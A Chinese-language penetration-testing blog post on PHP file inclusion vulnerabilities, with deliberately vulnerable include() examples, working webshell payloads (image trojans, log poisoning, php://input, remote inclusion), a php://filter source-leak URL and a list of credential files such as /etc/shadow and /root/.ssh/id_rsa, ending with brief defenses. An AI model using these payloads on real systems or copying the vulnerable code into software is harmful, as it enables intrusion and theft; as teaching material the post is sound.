 +++
date = "2016-07-26T09:24:22+08:00"
description = ""
draft = false
tags = ["文件包含"]
title = "文件包含漏洞"
topics = ["Pentest"]

+++

### 0x00 文件包含
程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。

几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多,而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端。

在PHP中经常出现包含漏洞，但这并不意味这其他语言不存在。

### 0x01 常见文件包含函数
```
include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
include_once()和require_once()：若文件中代码已被包含则不会再次包含
```

### 0x02 利用条件
* 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
* 用户能够控制该动态变量

``` 
注：PHP中只要文件内容符合PHP语法规范，包含时不管扩展名是什么都会被PHP解析，  
   若文件内容不符合PHP语法规范则会暴漏其源码。包含不存在的文件则可能暴露路径
```

### 0x03 漏洞危害
* 执行任意代码
* 读取文件源码或敏感信息
* 包含恶意文件控制网站
* 甚至控制服务器

### 0x04 漏洞分类
* 本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
    * 读敏感文件，读PHP文件
    * 包含日志文件GetShell
    * 上传图片马，然后包含从而GetShell
    * 包含/proc/self/envion文件GetShell
    * 包含data:或php://input等伪协议
    * 若有phpinfo则可以包含临时文件
* 远程文件包含：可以直接执行任意代码
    * 要保证php.ini中allow_url_fopen和allow_url_include要为On

### 0x05 漏洞挖掘
> 上AWVS或者自己写代码测试

### 0x06 本地包含GetShell
* 示例一

```php
<?php
    if (@$_GET['page']) {  
        include($_GET['page']);
    } else {  
        include "show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload1.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload1_check.png)

* 示例二

```php
<?php
    if (@$_GET['page']) {
        include("./action/".$_GET['page']);
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload2.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload2_check.png)

* %00截断包含(PHP<5.3.4 and magic_quotes_gpc=off)

```php
<?php
    if (@$_GET['page']) {
        include "./action/".$_GET['page'].".php";
        echo "./action/".$_GET['page'].".php";
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload3.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload3_check.png)
还有一个路径长度截断，Linux可以用./或/截断，需要文件名长度大于4096，Windows可以  
用\\.或./或\或/截断，需要大于256，是否能成功截断有多方面原因，可以说是靠运气的

* 包含图片马写shell

```
上传图片马，马包含的代码为<?fputs(fopen("shell.php","w"),"<?php eval(\$_POST[xxser]);?>")?>，
上传后图片路径为/uploadfile/201643.jpg，当访问
http://localhost/dvwa/vulnerabilities/fi/?page=../../uploadfile/201643.jpg时，
将会在fi这个文件夹下生成shell.php,内容为<?php eval($_POST[xxser]);?>
```

* 包含日志GetShell(主要是得到日志的路径)

```
读日志路径：
文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
默认位置/var/log/httpd/access_log
```
> 日志会记录客户端请求及服务器响应的信息，访问```http://www.xx.com/<?php phpinfo(); ?>```时，<?php phpinfo(); ?>也会被记录在日志里，也可以插入到User-Agent
![文件包含-包含日志](/img/post/file_include_access.log1.png)
可以通过Burp Suite来绕过编码
![文件包含-包含日志](/img/post/file_include_access.log2.png)
日志内容如下：
![文件包含-包含日志](/img/post/file_include_access.log3.png)
![文件包含-包含日志](/img/post/file_include_access.log4.png)

* 包含环境变量文件GetShell

```
需要PHP运行在CGI模式
然后和包含日志一样，在User-Agent修改为payload
```

* 使用PHP封装协议GetShell

```
allow_url_include=On时,若执行http://www.xxx.com/index.php?page=php://input,并且提
交数据<?php fputs(fopen("shell.php","w"),"<?php eval($_POST['xxxser']);?>") ?>
结果将在index.php所在文件下生成一句话文件shell.php
```
![文件包含-用PHP封装协议写shell1](/img/post/file_include_enprotocol1.png)
![文件包含-用PHP封装协议写shell2](/img/post/file_include_enprotocol2.png)

* phpinfo包含临时文件GetShell

```
向phpinfo上传文件则可以返回文件路径，但是文件存在时间很短，
可以用程序持续上传，然后就可以包含你上传的文件了
```

### 0x07 本地包含读文件
* 读敏感文件

![文件包含-读敏感文件](/img/post/file_include_read_file.png)

可读如下敏感文件：
```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

* 读PHP文件源码

```
直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
?page=php://filter/read=convert.base64-encode/resource=config.php
访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码
```

### 0x08 远程包含
注：远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
![文件包含-远程包含](/img/post/file_include_remote_include.png)
若在a.txt写入```<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[xxx]); ?>") ?>```，可直接写shell

### 0x09 漏洞防御
```
PHP中使用open_basedir配置，将访问限制在指定区域
过滤./\
禁止服务器远程文件包含
```
